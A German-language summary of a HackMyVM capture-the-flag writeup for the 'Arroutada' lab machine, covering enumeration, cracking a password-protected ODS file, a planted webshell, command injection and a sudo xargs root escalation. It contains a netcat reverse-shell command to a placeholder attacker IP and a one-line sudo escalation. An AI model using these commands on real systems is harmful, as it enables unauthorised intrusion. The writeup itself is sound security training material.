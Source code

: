 # Arroutada - HackMyVM Writeup

![Arroutada VM Icon](Arroutada.png)

Dieses Repository enthält das Writeup für die HackMyVM-Maschine "Arroutada" (Schwierigkeitsgrad: Easy), erstellt von DarkSpirit. Ziel war es, initialen Zugriff auf die virtuelle Maschine zu erlangen und die Berechtigungen bis zum Root-Benutzer zu eskalieren.

## VM-Informationen

*   **VM Name:** Arroutada
*   **Plattform:** HackMyVM
*   **Autor der VM:** DarkSpirit
*   **Schwierigkeitsgrad:** Easy
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Arroutada](https://hackmyvm.eu/machines/machine.php?vm=Arroutada)

## Writeup-Informationen

*   **Autor des Writeups:** Ben C.
*   **Datum des Berichts:** 08. April 2023
*   **Link zum Original-Writeup (GitHub Pages):** [https://alientec1908.github.io/Arroutada_HackMyVM_Easy/](https://alientec1908.github.io/Arroutada_HackMyVM_Easy/)

## Kurzübersicht des Angriffspfads

Der Angriff auf die Arroutada-Maschine umfasste folgende Schritte:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.124`) mittels `arp-scan`.
    *   Ein `nmap`-Scan offenbarte nur Port 80 (HTTP, Apache 2.4.54) als offen.
2.  **Web Enumeration:**
    *   Download einer Bilddatei (`apreton.png`) von der Webseite.
    *   `exiftool` extrahierte aus den Metadaten des Bildes den Pfad-Hinweis `{"path": "/scout"}`.
    *   Im Verzeichnis `/scout/` wurde eine Nachricht gefunden, die auf `/scout/******/docs/` verwies.
    *   `gobuster` entdeckte das Verzeichnis `/scout/j2/docs/` und darin die Datei `pass.txt` sowie eine passwortgeschützte ODS-Datei (`shellfile.ods`).
    *   Die Dateien wurden mit `wget` heruntergeladen.
    *   `libreoffice2john` extrahierte den Hash der `shellfile.ods`, und `john` knackte das Passwort als `john11`.
    *   In der (entschlüsselten) `shellfile.ods` wurde der Pfad zu einer Webshell (`/thejabasshell.php`) gefunden.
    *   `wfuzz` wurde verwendet, um die Parameter der Webshell zu ermitteln (`a` für Befehl, `b` für Passwort). Das Passwort `pass` wurde als funktionierend identifiziert.
3.  **Initial Access:**
    *   Die Webshell (`/thejabasshell.php?a=[BEFEHL]&b=pass`) wurde genutzt, um eine Netcat-Reverse-Shell zum Angreifer-System zu initiieren (`nc -e /bin/bash [ATTACKER_IP] [PORT]`).
    *   Eine interaktive Shell als Benutzer `www-data` wurde erlangt und stabilisiert.
4.  **Privilege Escalation (www-data zu drito):**
    *   `ss -tulpe` auf dem Zielsystem zeigte einen lokalen Dienst auf `127.0.0.1:8000`, der als Benutzer `drito` (UID 1001) lief.
    *   `curl` wurde vom Angreifer-System auf das Ziel übertragen.
    *   Eine erste Anfrage an den lokalen Dienst lieferte Brainfuck-Code, der zu "all HackMyVM hackers!!" dekodierte.
    *   Die `www-data`-Shell wurde zu einer Meterpreter-Session aufgewertet.
    *   Meterpreter `autoroute` und `portfwd` wurden genutzt, um den internen Dienst auf Port 8000 für den Angreifer erreichbar zu machen. Alternativ wurde ein `nc`-Tunnel erstellt.
    *   Ein HTML-Kommentar auf der Hauptseite des internen Dienstes (`http://192.168.2.124:8001`) verwies auf `/priv.php`.
    *   `/priv.php` hatte eine Command Injection-Schwachstelle: Es akzeptierte einen JSON-Parameter `command` via POST, dessen Wert direkt an `system()` übergeben wurde.
    *   Eine POST-Anfrage an `/priv.php` mit einem Reverse-Shell-Payload im `command`-Parameter führte zu einer Shell als Benutzer `drito`.
5.  **Privilege Escalation (drito zu root):**
    *   `sudo -l` für `drito` zeigte, dass der Benutzer `/usr/bin/xargs` als jeder Benutzer ohne Passwort ausführen durfte (`(ALL : ALL) NOPASSWD: /usr/bin/xargs`).
    *   Mit dem Befehl `sudo xargs -a /dev/null bash` wurde eine Root-Shell erlangt.
    *   Die Root-Flag in `/root/root.txt` war Base64-kodiert und ROT13-verschlüsselt. Sie wurde dekodiert zu `ThanksToSmlAndAllHackMyVM`.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `wget`
*   `exiftool`
*   `gobuster`
*   `libreoffice2john`
*   `john`
*   `nikto`
*   `wfuzz`
*   `curl`
*   `nc` (netcat)
*   `python3`
*   `pty` (impliziert in `script`)
*   `stty`
*   `ss`
*   `cp`
*   `chmod`
*   `Metasploit (msfconsole)`
*   `meterpreter`
*   `script`
*   `sudo`
*   `xargs`
*   `bash`
*   `id`
*   `cd`
*   `ls`
*   `cat`
*   `echo`
*   `base64`
*   `tr`

## Identifizierte Schwachstellen (Zusammenfassung)

*   **Informationen in Bild-Metadaten:** Ein Pfad (`/scout`) wurde in den Exif-Daten eines Bildes gefunden.
*   **Versteckte Hinweise in Webseiten-Inhalten:** Nachrichten lieferten Hinweise auf Verzeichnisstrukturen.
*   **Exponierte sensible Dateien und Verzeichnisse:** `pass.txt` und passwortgeschützte Office-Dokumente waren über das Web zugänglich.
*   **Schwaches Passwort für Office-Dokument:** Das Passwort für `shellfile.ods` konnte mit `rockyou.txt` geknackt werden.
*   **Vorhandensein einer Webshell:** `thejabasshell.php` ermöglichte Remote Code Execution.
*   **Schwaches Authentifizierungstoken für Webshell:** Das Passwort `pass` für die Webshell war leicht zu fuzzen.
*   **Interner Dienst mit Command Injection:** `/priv.php` auf `127.0.0.1:8000` war anfällig für Command Injection via JSON POST-Parameter.
*   **Unsichere `sudo`-Konfiguration:** Der Benutzer `drito` konnte `/usr/bin/xargs` ohne Passwort als Root ausführen, was eine direkte Privilegieneskalation ermöglichte.
*   **Mehrfache Kodierung der Root-Flag:** Die Flag war Base64 und ROT13 kodiert.

## Flags

*   **User Flag (`/home/drito/user.txt`):** `785f64437c6e1f9af6aa1afcc91ed27c`
*   **Root Flag (`/root/root.txt`):** `ThanksToSmlAndAllHackMyVM` (dekodiert aus `R3VuYXhmR2JGenlOYXFOeXlVbnB4WmxJWg==`)

---

**Wichtiger Hinweis:** Dieses Dokument und die darin enthaltenen Informationen dienen ausschließlich zu Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Techniken und Werkzeuge sollten nur in legalen und autorisierten Umgebungen (z.B. eigenen Testlaboren, CTFs oder mit expliziter Genehmigung) angewendet werden. Das unbefugte Eindringen in fremde Computersysteme ist eine Straftat und kann rechtliche Konsequenzen nach sich ziehen.

---
*Bericht von Ben C. - Cyber Security Reports*
